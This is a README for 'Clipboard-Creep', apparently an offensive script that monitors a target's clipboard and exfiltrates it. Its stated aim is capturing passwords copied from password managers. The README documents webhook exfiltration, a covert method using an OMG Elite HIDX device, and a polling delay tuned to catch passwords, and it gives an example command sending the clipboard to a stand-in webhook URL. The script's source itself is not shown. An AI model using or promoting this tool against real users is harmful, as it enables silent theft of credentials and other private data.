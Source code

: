 # Clipboard-Creep #
Clipboard-Creep is a basic script which tracks the users clipboard and exfiltrates it contents. It was created to get access to passwords copied out of password managers, but might be useful in general.


## Usage ##
### Webhook ###
The parameter webhook where data gets send to. Define the URL simply after the paramter and get the incoming clipboard content.

### CovertExfil ###
This method required an HIDX poc to be successfully imported on the system. In addition to that, an OMG Elite device with actived HIDX is required. (This method is seen as a work in progress POC)

### Sleep ###
The parameter sleep defines delay between every observation of the targets clipboard. A default of 12 seconds was choosen to capture potential passwords, in clipboards of password managers.

### EXAMPLE ###
Output the targets clipboard into the console, every 12 seconds.
```Clipboard-Creep```

### EXAMPLE ###
Exfiltrate the targets clipboard content to a defined webhook every 10 seconds.
```Clipboard-Creep -Webhook "https://example.com/" -Sleep 10```

![alt text](https://github.com/0i41E/ClipBoard-Creep/blob/main/ClipBoard-Creep/media/clippy.png)
